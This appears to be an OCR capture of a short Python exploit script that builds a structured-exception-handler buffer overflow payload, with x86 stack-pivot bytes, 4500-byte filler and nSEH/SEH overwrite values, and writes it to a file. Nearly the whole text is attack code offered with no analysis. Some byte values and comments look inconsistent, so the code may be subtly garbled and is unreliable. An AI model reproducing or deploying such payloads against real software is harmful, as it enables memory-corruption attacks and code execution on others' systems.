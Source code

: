```python
payload += "\x83\xC4\x8B\x90" # add esp, -0x75 
payload += "\x83\xC4\x8A\xC3" # add esp, -0x76
payload += "\x41\x48\xD2\x19"*((4500 - len(payload))/4)
payload += "\x83\xC4\x54\xC3" #nSEH
payload += "\x35\x58\x44" #SEH

with open("buf.txt", "w") as inp:
    inp.write(payload)
```
